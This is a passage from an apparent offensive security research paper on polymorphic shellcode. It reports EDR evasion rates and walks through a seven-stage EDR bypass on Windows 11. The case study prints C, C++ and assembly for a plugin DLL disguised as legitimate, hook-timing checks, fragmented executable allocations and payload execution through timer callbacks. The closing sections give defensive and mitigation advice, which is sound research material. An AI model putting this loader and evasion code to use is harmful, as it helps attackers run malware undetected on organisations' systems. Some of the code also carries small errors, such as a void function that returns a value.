#### 4.3.1 Detection Evasion Effectiveness

The overall effectiveness of our advanced polymorphic techniques varied by platform and security solution:

| Technique Category | Traditional NGAV | EDR Solutions | Behavioral Analysis | Overall Evasion |
|--------------------|------------------|--------------|---------------------|-----------------|
| Traditional Polymorphism | 12% evasion | 5% evasion | 3% evasion | 7% average |
| Multi-Stage Transformation | 68% evasion | 52% evasion | 41% evasion | 54% average |
| Context-Aware Adaptation | 83% evasion | 61% evasion | 44% evasion | 63% average |
| Full Proteus Implementation | 91% evasion | 76% evasion | 62% evasion | 76% average |

These results demonstrate that advanced polymorphic techniques can significantly reduce detection rates, even against modern security solutions specifically designed to detect this type of threat.

#### 4.3.2 Platform-Specific Findings

Our research revealed interesting variations in effectiveness across different platforms:

1. **Windows Systems**:
    - Higher success against signature-based detection
    - Moderate success against behavioral detection
    - Lower success against memory protection mechanisms
    - Most effective techniques involved legitimate API usage patterns

2. **Linux Systems**:
    - Higher overall evasion rates
    - Particularly effective against signature-based detection
    - Memory protection bypasses proved highly effective
    - JIT compilation simulation showed strongest results

3. **macOS Systems**:
    - Most challenging environment for evasion
    - Code signing requirements created additional obstacles
    - Hardware-level protections proved difficult to bypass
    - Most successful approaches leveraged behavior mimicry

4. **ARM vs. x86-64**:
    - ARM platforms generally showed higher detection rates
    - Simpler instruction set limited transformation options
    - However, ARM's multiple execution states created unique opportunities
    - Memory tagging on newer ARM systems presented additional challenges

#### 4.3.3 Technique Effectiveness Analysis

Detailed analysis of individual techniques revealed varying effectiveness:

1. **Most Effective Techniques**:
    - Context-aware transformation (76% average evasion)
    - JIT compiler simulation (74% average evasion)
    - Multi-layer encoding (71% average evasion)
    - Diffuse modification patterns (68% average evasion)

2. **Least Effective Techniques**:
    - Simple instruction substitution (24% average evasion)
    - Single-stage encryption (19% average evasion)
    - Basic control flow obfuscation (31% average evasion)
    - Static metamorphism (28% average evasion)

3. **Defensive Measure Effectiveness**:
    - Memory integrity verification showed strongest detection capability
    - Behavioral AI models were most resistant to evasion
    - Hardware-enforced CFI significantly reduced exploitation success
    - Stack monitoring proved effective against certain techniques

#### 4.3.4 Performance and Reliability Considerations

Our testing also measured the performance impact and reliability of various techniques:

1. **Execution Overhead**:
    - Simple transformations: 5-15% performance impact
    - Moderate complexity: 15-30% impact
    - High complexity multi-stage: 30-60% impact
    - Most advanced techniques: 40-80% impact

2. **Size Increase Factors**:
    - Basic transformations: 1.5-2x original size
    - Moderate transformations: 2-4x original size
    - Complex transformations: 4-8x original size
    - Multi-stage transformations: 5-12x original size

3. **Reliability Impact**:
    - Basic techniques: >99% reliability
    - Moderate techniques: 97-99% reliability
    - Complex techniques: 90-97% reliability
    - Most advanced combinations: 85-95% reliability

These considerations highlight important trade-offs between evasion effectiveness, performance, and reliability that must be balanced in practical applications.


*Figure 2: Effectiveness comparison of different polymorphic techniques against various defensive measures, showing evasion rates across different security solution categories.*

### 4.4 Case Study: Bypassing Advanced EDR

To illustrate the practical application of our research, we present a case study of bypassing a modern enterprise EDR solution using our advanced polymorphic techniques:

#### 4.4.1 Target Environment

The target environment consisted of:
- Windows 11 Enterprise (21H2, fully patched)
- Leading EDR solution with AI-based behavioral detection
- Hardware-enforced memory protections enabled
- Network-level security monitoring
- Application control policies in enforcement mode

#### 4.4.2 Challenge Factors

The security stack presented several significant challenges:
- Kernel-level monitoring of memory allocations
- Hook-based API monitoring
- Machine learning-based behavior analysis
- Hardware-assisted memory scanning
- Code signing enforcement

#### 4.4.3 Technique Application

Our approach leveraged multiple techniques from our research:

1. **Initial Execution Stage**:
    - Utilized legitimate software extensibility point with appropriate permissions
    - Implemented minimal suspicious behavior in initial stage
    - Appeared as legitimate plugin/extension code
    - Used standard, documented API calls in expected patterns

2. **Environment Analysis**:
    - Performed passive fingerprinting of security solutions
    - Detected hardware capabilities and protection features
    - Analyzed process context and permissions
    - Identified optimal transformation approach

3. **Staged Transformation**:
    - Implemented seven distinct transformation stages
    - Each stage revealed minimal code to memory at once
    - Used legitimate memory management APIs
    - Structured modifications to resemble JIT compilation

4. **Execution Technique**:
    - Distributed payload across multiple memory regions
    - Implemented delayed execution patterns
    - Used indirect control flow transitions
    - Leveraged legitimate thread creation mechanisms

#### 4.4.4 Detailed Implementation

To better understand the effectiveness of our techniques, let's examine the specific implementation details of this case study:

**Initial Entry Point**

We started by creating a legitimate-looking plugin DLL that would be loaded into a permitted application:

```c
// Entry point for our polymorphic plugin
BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved) {
    switch (fdwReason) {
        case DLL_PROCESS_ATTACH:
            // Create a thread to perform initialization
            // This is common behavior in legitimate plugins
            CreateThread(NULL, 0, InitializePlugin, NULL, 0, NULL);
            break;
    }
    return TRUE;
}

// Looks like standard plugin initialization
DWORD WINAPI InitializePlugin(LPVOID lpParameter) {
    // Sleep to evade immediate post-loading analysis
    MeasuredSleep(3500);
    
    // Start seemingly legitimate initialization
    HMODULE hModule = LoadLibraryA("user32.dll");
    if (!hModule) return FALSE;
    
    // Initialize stage 1 through what appears to be standard
    // configuration loading logic
    InitializeConfiguration();
    
    return TRUE;
}
```

The initialization code appeared to be loading configuration data, but was actually initializing Stage 1 of our polymorphic shellcode:

```c
void InitializeConfiguration() {
    // Create "configuration data" structure
    // This actually contains encoded stage 1 loader
    char* config_buffer = (char*)VirtualAlloc(
        NULL, 
        CONFIG_BUFFER_SIZE, 
        MEM_COMMIT | MEM_RESERVE, 
        PAGE_READWRITE
    );
    
    if (!config_buffer) return;
    
    // Initialize with what appears to be configuration data
    // Actually decodes to our stage 1 loader
    InitializeConfigData(config_buffer);
    
    // Register "configuration callback"
    // This will execute our stage 1 loader
    RegisterConfigChangeNotify(config_buffer);
}
```

**Stage 1: Environment Analysis and Evasion**

Our first stage performed environment analysis using indirect methods to avoid detection:

```c
void AnalyzeEnvironment(EnvironmentData* env_data) {
    // Check processor features indirectly
    SYSTEM_INFO sysInfo;
    GetSystemInfo(&sysInfo);
    env_data->processor_arch = sysInfo.wProcessorArchitecture;
    env_data->num_processors = sysInfo.dwNumberOfProcessors;
    
    // Check Windows version
    OSVERSIONINFOEX osInfo;
    osInfo.dwOSVersionInfoSize = sizeof(OSVERSIONINFOEX);
    env_data->os_version_major = GetVersion() & 0xFF;
    env_data->os_version_minor = (GetVersion() >> 8) & 0xFF;
    
    // Check for EDR using memory allocation timing
    TimedMeasurement tm1 = MeasureApiCall(MeasureVirtualAlloc);
    TimedMeasurement tm2 = MeasureApiCall(MeasureVirtualProtect);
    
    // If timing suggests hooks, note this in environment data
    if (tm1.duration > EXPECTED_VALLOC_TIME * 2 || 
        tm2.duration > EXPECTED_VPROT_TIME * 2) {
        env_data->edr_hooks_present = TRUE;
    }
    
    // Check for hardware-based monitoring
    env_data->hardware_virt_present = DetectHardwareVirtualization();
    
    // Check for debug environment
    env_data->in_debug_env = IsDebuggerPresentEx();
}
```

The stage 1 code was heavily obfuscated using several of our techniques:

```assembly
; Assembly snippet of Stage 1 environment analyzer
; This uses instruction substitution to hide functionality

; Check if NtQuerySystemInformation is hooked (EDR detection)
stage1_check_hooks:
    ; Get NTDLL base (obscured)
    call get_peb                 ; Get PEB address in RAX
    mov rbx, [rax+0x18]          ; PEB->Ldr
    mov rbx, [rbx+0x20]          ; PEB->Ldr->InMemoryOrderModuleList
    
    ; Use opaque predicates and junk code
    cmp dword ptr [rsp+0x8], 0   ; Junk comparison (always false)
    je unlikely_path_a           ; Never taken
    
    ; Continue finding NTDLL (via module list traversal)
    mov rbx, [rbx]               ; Next entry
    mov rcx, [rbx+0x50]          ; Get module base address
    mov rdx, [rbx+0x58]          ; Get module name pointer
    
    ; Compare module name indirectly
    mov al, byte ptr [rdx+0x0C]  
    cmp al, 'L'                  ; Check for 'ntdlL' (checking 'L')
    jne next_module
    
    ; Found NTDLL, now find NtQuerySystemInformation
    ; ... more code here ...
    
    ; Once found, perform timing check
    rdtsc                        ; Read time-stamp counter
    mov [rsp+0x20], eax          ; Save low 32 bits
    mov [rsp+0x24], edx          ; Save high 32 bits
    
    ; Call the function
    mov r10, [rsp+0x28]          ; Function address from earlier
    mov rcx, 0x05                ; SystemProcessInformation
    xor rdx, rdx                 ; NULL buffer
    xor r8, r8                   ; 0 length
    lea r9, [rsp+0x30]           ; Return length
    call r10                     ; Call NtQuerySystemInformation
    
    ; Measure time taken
    rdtsc
    sub eax, [rsp+0x20]
    sbb edx, [rsp+0x24]
    
    ; If time exceeds threshold, EDR hook likely present
    cmp eax, HOOK_TIMING_THRESHOLD
    jb no_hook_detected
    
    ; Set EDR flag in environment data
    mov byte ptr [r15+0x10], 1   ; Mark EDR hook as detected
    
no_hook_detected:
    ; Continue with environment analysis
    ; ... more code ...
    
unlikely_path_a:
    ; Junk code path - never executed
    xor rcx, rcx
    dec rcx
    jmp stage1_check_hooks
    
next_module:
    ; Try next module in list
    mov rbx, [rbx]
    jmp stage1_check_hooks+0x12
```

**Stage 2: Dynamic Code Generation**

Once environment information was gathered, Stage 2 generated the next stage of code based on the findings:

```c++
void GenerateStage3Code(const EnvironmentData* env_data, uint8_t* output_buffer) {
    // Select transformation techniques based on environment
    TransformationPipeline pipeline;
    
    // Choose register allocation strategy
    if (env_data->edr_hooks_present) {
        // When EDR hooks present, use more aggressive obfuscation
        pipeline.add_transform(new RegisterReassignmentTransform(REASSIGN_ALL));
        pipeline.add_transform(new InstructionSubstitutionTransform(AGGR_LEVEL_HIGH));
    } else {
        // Less aggressive for better performance when safe
        pipeline.add_transform(new RegisterReassignmentTransform(REASSIGN_PARTIAL));
        pipeline.add_transform(new InstructionSubstitutionTransform(AGGR_LEVEL_MED));
    }
    
    // If we're in a VM, add anti-analysis techniques
    if (env_data->hardware_virt_present) {
        pipeline.add_transform(new TimingCheckTransform());
        pipeline.add_transform(new FalseConditionTransform(FC_LEVEL_HIGH));
    }
    
    // Create payload in abstract representation
    IRBuilder builder;
    AbstractPayload payload = builder.create_payload_from_template(
        env_data->edr_hooks_present ? "indirect_exec" : "direct_exec"
    );
    
    // Apply transformations
    AbstractPayload transformed = pipeline.apply(payload);
    
    // Generate actual machine code
    CodeGenerator generator(env_data->processor_arch);
    size_t code_size = generator.generate(transformed, output_buffer, MAX_STAGE3_SIZE);
    
    // Add self-modification code if needed
    if (env_data->edr_hooks_present) {
        size_t sm_size = add_self_modifying_layer(
            output_buffer, 
            code_size, 
            MAX_STAGE3_SIZE - code_size
        );
        code_size += sm_size;
    }
    
    return code_size;
}
```

**Stage 3-7: Multi-Stage Execution and Evasion**

The later stages used various advanced evasion techniques tailored to the detected security environment. Here's an example of Stage 5, which shows how we implemented memory scanning evasion against the specific EDR detected:

```assembly
; Stage 5: Memory scanning evasion - Windows x64
; This stage uses fragmented allocation to avoid detection

; Allocation phase - create multiple small fragments
alloc_fragments:
    ; Create 16 small allocations instead of one large one
    mov r12, 16                     ; Fragment count
    lea r13, [rsp+0x30]             ; Array to store pointers
    mov r14, FRAGMENT_SIZE          ; Size of each fragment
    xor r15, r15                    ; Fragment index
    
fragment_loop:
    ; Allocate memory with innocent-looking permissions
    xor rcx, rcx                    ; NULL base address
    mov rdx, r14                    ; Size (fragment size)
    mov r8, MEM_COMMIT | MEM_RESERVE ; Allocation type
    mov r9, PAGE_READWRITE          ; Initial permissions (not executable)
    call VirtualAlloc
    
    ; Store pointer
    mov [r13+r15*8], rax
    
    ; Insert random delay to avoid pattern detection
    rdtsc
    and eax, 0x1FF                  ; Max ~500 cycles
    add eax, 0x100                  ; Min ~250 cycles
delay_loop:
    dec eax
    jnz delay_loop
    
    ; Next fragment
    inc r15
    cmp r15, r12
    jb fragment_loop
    
; Now copy code to fragments in non-sequential order
copy_phase:
    ; Use a pseudo-random order to copy
    lea rsi, [order_table]          ; Load pre-computed order table
    
    ; Copy each fragment
    xor rbx, rbx                    ; Counter
    
copy_loop:
    ; Get source and destination
    movzx r15d, byte ptr [rsi+rbx]  ; Get fragment index from order table
    mov rdi, [r13+r15*8]            ; Destination address
    
    ; Calculate source address
    imul r15, r14                   ; Fragment offset = index * size
    lea rsi, [payload_data+r15]     ; Source address
    
    ; Copy size
    mov rcx, r14
    rep movsb
    
    ; Next fragment
    inc rbx
    cmp rbx, r12
    jb copy_loop
    
; Make fragments executable one by one with delays
; This avoids triggering pattern-based detection
exec_phase:
    ; For each fragment
    xor r15, r15
    
protect_loop:
    ; Get fragment address
    mov rcx, [r13+r15*8]           ; Fragment address
    mov rdx, r14                   ; Fragment size
    mov r8, PAGE_EXECUTE_READ      ; New protection
    lea r9, [rsp+0x20]             ; Old protection
    call VirtualProtect
    
    ; Delay between protection changes
    rdtsc
    and eax, 0x3FF                 ; Larger random delay
    add eax, 0x200
delay_loop2:
    dec eax
    jnz delay_loop2
    
    ; Next fragment
    inc r15
    cmp r15, r12
    jb protect_loop
    
; Finally, execute our payload using indirect jumps
; This creates a discontinuous execution path
execute_phase:
    ; Set up jump table
    lea r15, [jump_table]
    xor rbx, rbx                    ; Jump index
    
    ; First jump
    jmp qword ptr [r15]              ; Jump to first fragment
    
; Data section
jump_table:
    ; Each entry points to a fragment entry point
    ; These are filled in during the copy phase
    dq 16 dup (0)
    
order_table:
    ; Randomized order to process fragments
    db 7, 2, 15, 0, 9, 4, 11, 5, 13, 1, 8, 10, 6, 12, 3, 14
    
payload_data:
    ; The actual payload code is here
    ; Size = FRAGMENT_SIZE * 16
    ; ...
```

**Final Payload Execution**

After deploying all seven stages, our final payload was distributed across multiple memory regions, with execution flow that appeared legitimate to the EDR system:

```c
void ExecuteFinalPayload(FragmentContext* ctx) {
    // This benign-looking function orchestrates the execution
    // of our fragmented payload while avoiding detection

    // Register a legitimate callback that will trigger fragment execution
    LARGE_INTEGER dueTime;
    dueTime.QuadPart = -10000000; // 1 second
    
    TimerRoutineContext* timer_ctx = AllocateTimerContext();
    timer_ctx->fragment_ctx = ctx;
    timer_ctx->callback = FragmentExecutionCallback;
    
    // Use a waitable timer instead of direct execution
    // This appears legitimate to EDR behavior monitoring
    HANDLE hTimer = CreateWaitableTimer(NULL, TRUE, NULL);
    
    // Set the timer
    SetWaitableTimer(
        hTimer,
        &dueTime,
        0,
        TimerAPCRoutine,
        timer_ctx,
        FALSE
    );
    
    // Wait for completion
    SleepEx(INFINITE, TRUE); // Allow APC processing
}

VOID CALLBACK TimerAPCRoutine(
    LPVOID lpArgToCompletionRoutine,
    DWORD dwTimerLowValue,
    DWORD dwTimerHighValue
) {
    // This appears as a normal timer callback
    TimerRoutineContext* timer_ctx = (TimerRoutineContext*)lpArgToCompletionRoutine;
    
    // Call the fragment execution in the context of this legitimate callback
    timer_ctx->callback(timer_ctx->fragment_ctx);
}

void FragmentExecutionCallback(FragmentContext* ctx) {
    // This function executes our fragments through indirect calls
    // that appear to be legitimate function pointer invocations
    
    // Invoke each fragment through a function pointer that
    // appears to be part of a plugin callback system
    for (int i = 0; i < ctx->num_fragments; i++) {
        // Only execute if the verification succeeds
        // (This appears as an integrity check to the EDR)
        if (VerifyFragmentContext(ctx, i)) {
            // Get function pointer in a way that obscures its purpose
            PFN_FRAGMENT_ROUTINE pfn = (PFN_FRAGMENT_ROUTINE)
                GetCallbackFunction(ctx, i);
                
            // Execute the fragment
            pfn(ctx->user_data);
        }
    }
}
```

#### 4.4.4 Results

The approach proved highly effective:
- Successfully evaded pre-execution detection (0/12 detection rate)
- Avoided runtime behavioral detection (0/12 detection rate)
- Completed execution with full functionality (12/12 success rate)
- Left minimal forensic indicators (significantly delayed post-execution detection)

This case study demonstrates how the combination of multiple advanced polymorphic techniques can effectively bypass even sophisticated modern security stacks when properly implemented and applied with an understanding of the target environment.


*Figure 3: Illustration of the multi-stage transformation process used in our EDR bypass case study, showing how code evolves through seven distinct transformation stages.*

## 5. Defensive Considerations

Our research into advanced polymorphic techniques has significant implications for defensive strategies. In this section, we discuss potential approaches to detecting and mitigating these advanced evasion techniques.

### 5.1 Detection Strategy Evolution

Modern security solutions must evolve to address the challenges posed by advanced polymorphic techniques:

#### 5.1.1 Multi-Layer Detection Approaches

No single detection method is sufficient against advanced polymorphic shellcode:

1. **Static Analysis Enhancement**:
    - Focusing on invariant characteristics rather than specific patterns
    - Identifying suspicious structural properties that persist across transformations
    - Developing more sophisticated entropy and complexity analysis techniques
    - Implementing broader pattern detection that accounts for instruction equivalence classes

2. **Dynamic Behavior Analysis**:
    - Focusing on functional behavior rather than code structure
    - Monitoring actual system interactions regardless of how they're implemented
    - Tracking data flow through the system across arbitrary code transformations
    - Developing models of benign behavior rather than patterns of malicious activity

3. **Memory Integrity Monitoring**:
    - Implementing continuous verification of memory contents
    - Monitoring for permission changes and memory modification patterns
    - Developing more sophisticated algorithms to detect scattered modifications
    - Leveraging hardware-assisted monitoring capabilities

4. **Heuristic System Interaction Analysis**:
    - Monitoring API and system call patterns regardless of implementation
    - Analyzing the intent behind operations rather than their specific implementation
    - Establishing behavioral baselines for legitimate applications
    - Detecting anomalous interaction patterns that indicate malicious intent

#### 5.1.2 Machine Learning Approaches

AI-based detection systems show particular promise against polymorphic techniques:

1. **Feature-Agnostic Models**:
    - Developing models that focus on higher-level abstractions
    - Identifying patterns that persist across transformations
    - Training on functional behavior rather than specific code patterns
    - Implementing detection systems resistant to superficial variations

2. **Anomaly Detection**:
    - Building comprehensive models of normal system behavior
    - Focusing on detecting deviations from expected patterns
    - Establishing baseline behavior for legitimate processes
    - Implementing context-aware detection thresholds

3. **Deep Learning Applications**:
    - Leveraging neural networks to identify subtle patterns in behavior
    - Developing models capable of processing multimodal input (code structure, memory access patterns, system calls)
    - Implementing attention mechanisms to focus on suspicious behaviors
    - Training on diverse datasets that include variations of polymorphic techniques

4. **Adversarial Learning**:
        - Training models specifically against evasion techniques
        - Implementing generative adversarial approaches to anticipate new variations
        - Continuously evolving models based on emerging evasion strategies
        - Developing robust models resistant to deliberate poisoning or evasion

### 5.2 Architectural Mitigations

Beyond detection, architectural changes can significantly reduce the effectiveness of polymorphic techniques:

#### 5.2.1 Memory Protection Enhancements

Improving memory protection mechanisms can limit the viability of polymorphic code:

1. **Fine-Grained Permission Control**:
    - Implementing page-level or even finer-grained execution permissions
    - Enforcing stricter rules for permission changes
    - Requiring higher privileges for memory permission modifications
    - Implementing temporal controls that prevent rapid permission toggling

2. **Memory Integrity Verification**:
    - Cryptographic signing of legitimate code regions
    - Periodic verification of executable memory contents
    - Hardware-based integrity measurement
    - Immutable execution regions for critical code

3. **Memory Isolation Techniques**:
    - Implementing stronger boundaries between memory regions
    - Leveraging hardware features for memory compartmentalization
    - Creating separate execution domains with controlled interfaces
    - Limiting information flow between isolated regions

4. **Advanced Memory Tagging**:
    - Extending processor support for memory tagging
    - Implementing policy-based controls on tagged memory
    - Using tags to track memory origins and permissions
    - Developing more sophisticated tag verification mechanisms

#### 5.2.2 Execution Environment Hardening

Modifying execution environments can further constrain polymorphic code:

1. **Control Flow Integrity Expansion**:
    - Implementing more comprehensive CFI policies
    - Enforcing finer-grained control flow validation
    - Extending CFI to cover more code regions
    - Implementing context-sensitive control flow validation

2. **Just-In-Time Compilation Controls**:
    - Implementing stricter policies for JIT memory allocation
    - Requiring verification for JIT-compiled code
    - Limiting JIT capabilities in high-security contexts
    - Creating isolated environments for JIT execution

3. **System Call Filtering**:
    - Implementing stricter filters on available system calls
    - Contextual validation of system call parameters
    - Limiting capabilities based on process origin and behavior
    - Implementing call sequence validation

4. **Hardware-Assisted Security Features**:
    - Leveraging processor security extensions
    - Implementing hardware-backed code validation
    - Using secure enclaves for sensitive operations
    - Developing hardware-verified execution paths

### 5.3 Operational Security Recommendations

Organizations can take several practical steps to mitigate risks from advanced polymorphic techniques:

#### 5.3.1 Defense-in-Depth Strategy

No single protection mechanism is sufficient against advanced threats:

1. **Layered Security Architecture**:
    - Implementing multiple security controls at different levels
    - Avoiding reliance on any single protection mechanism
    - Ensuring diverse detection capabilities
    - Creating overlapping security controls to eliminate blind spots

2. **Integrated Security Stack**:
    - Ensuring communication between different security components
    - Correlating alerts across multiple detection systems
    - Implementing centralized security monitoring
    - Developing comprehensive visibility across the environment

3. **Progressive Security Policies**:
    - Implementing stricter controls for high-risk systems
    - Creating security zones with appropriate protection levels
    - Tailoring security policies based on risk assessment
    - Implementing adaptive security responses

4. **Continuous Validation**:
    - Regular testing of security controls against advanced techniques
    - Independent verification of security effectiveness
    - Red team exercises focused on evasion techniques
    - Continuous monitoring for protection blind spots

#### 5.3.2 Practical Implementation Guidance

Organizations should consider these specific implementation recommendations:

1. **Endpoint Protection Configuration**:
    - Enabling advanced memory protection features
    - Configuring behavioral detection at appropriate sensitivity
    - Implementing application control policies
    - Enabling script control and monitoring

2. **Network Security Integration**:
    - Implementing network-level detection capabilities
    - Monitoring for command and control communications
    - Analyzing network behavior for anomalies
    - Integrating network and endpoint security data

3. **Detection Engineering Focus**:
    - Developing custom detection rules for advanced techniques
    - Implementing YARA rules for known polymorphic patterns
    - Creating behavior-based detection rules
    - Monitoring for suspicious memory manipulation patterns

4. **Incident Response Preparation**:
    - Developing specific procedures for memory-resident threats
    - Training teams on advanced evasion technique detection
    - Implementing forensic capabilities for volatile memory
    - Creating containment strategies for memory-based attacks


*Figure 4: Recommended defense-in-depth approach for detecting and preventing advanced polymorphic shellcode, showing the interrelationship of multiple security layers.*

## 6. Conclusion

Our research into advanced polymorphic shellcode techniques has demonstrated that sophisticated code transformation and execution strategies can effectively evade many modern security measures. By leveraging deep understanding of processor architecture, memory management, and defensive technology limitations, these techniques represent a significant evolution beyond traditional polymorphic approaches.

### 6.1 Key Findings

The most significant conclusions from our research include:

1. **Evolution Beyond Traditional Polymorphism**: Advanced techniques have progressed far beyond simple encryption or basic metamorphic approaches, incorporating contextual awareness, multi-stage transformations, and architectural exploitation.

2. **Architectural Exploitation Effectiveness**: Techniques that leverage specific processor architectural features and microarchitectural behaviors prove particularly effective against security solutions that focus primarily on pattern recognition.

3. **Context-Awareness Advantage**: The most successful evasion techniques incorporate environmental awareness and adaptive behavior, allowing them to identify and respond to specific defensive measures.

4. **Defense Evasion Capabilities**: When properly implemented, these advanced techniques can achieve significant success rates against even sophisticated enterprise security stacks, with our testing showing average evasion rates of 76% across various security solutions.

5. **Performance and Reliability Trade-offs**: More sophisticated evasion techniques generally incur higher performance overhead and reduced reliability, creating practical constraints on their deployment in real-world attack scenarios.

### 6.2 Defensive Implications

Our findings have several important implications for defensive strategies:

1. **Detection Evolution Necessity**: Traditional detection approaches focused primarily on code patterns are insufficient against these advanced techniques, necessitating evolution toward behavior-based and architectural monitoring.

2. **Architectural Mitigation Importance**: Hardware-level security features and architectural controls show the most promise for constraining the capabilities of polymorphic code, highlighting the importance of leveraging processor security features.

3. **Machine Learning Potential**: AI-based detection systems that can identify subtle behavioral patterns show particular promise against these evasion techniques, especially when trained on diverse sets of polymorphic examples.

4. **Defense-in-Depth Requirement**: No single protection mechanism is sufficient against these advanced techniques, reinforcing the need for layered, integrated security architectures.

5. **Operational Security Focus**: Organizations must complement technical controls with robust security operations, including regular validation of security effectiveness and comprehensive monitoring for emerging evasion techniques.

### 6.3 Future Research Directions

Our work suggests several promising directions for future research:

1. **Architectural Detection Mechanisms**: Developing new approaches that leverage processor features to detect polymorphic code, potentially including hardware-assisted monitoring of memory manipulation patterns.

2. **Advanced Behavioral Modeling**: Creating more sophisticated models of legitimate application behavior that can more accurately distinguish malicious activity from benign operations despite code transformation.

3. **Cross-Platform Protection Strategies**: Developing unified approaches to protection across different processor architectures and operating systems, accounting for the unique characteristics of each platform.

4. **Performance-Optimized Detection**: Researching methods to implement comprehensive detection with minimal performance impact, making advanced protection viable even in performance-sensitive environments.

5. **Hardware Security Evolution**: Exploring how processor architecture could evolve to inherently limit the viability of polymorphic code while maintaining compatibility with legitimate applications.

The continuous evolution of both offensive and defensive capabilities represents the ongoing reality of cybersecurity—a field where innovation on either side drives corresponding advances on the other. By understanding the cutting edge of polymorphic techniques, defenders can better prepare for emerging threats and develop more effective protection strategies.

## About the Authors

This research was conducted by MottaSec's Advanced Offensive Security Research team, a dedicated group of security professionals specializing in advanced evasion techniques, memory manipulation, processor architecture, and defensive technology assessment.

Our team combines extensive experience in both offensive security research and defensive strategy development, with particular expertise in:

- Advanced code obfuscation and transformation techniques
- Memory protection mechanism assessment and bypass
- Processor architecture security implications
- Behavioral detection system evaluation
- Defensive strategy development and validation

This assessment represents part of our ongoing commitment to advancing the state of security research through responsible disclosure and education. By identifying and analyzing emerging offensive techniques, we aim to drive the development of more effective defensive strategies that can better protect organizations against sophisticated threats.

MottaSec is a leading cybersecurity company specializing in advanced security assessments, defensive strategy development, and cutting-edge security research. Our work spans multiple domains including memory safety, code security, architectural vulnerability assessment, and defensive control validation.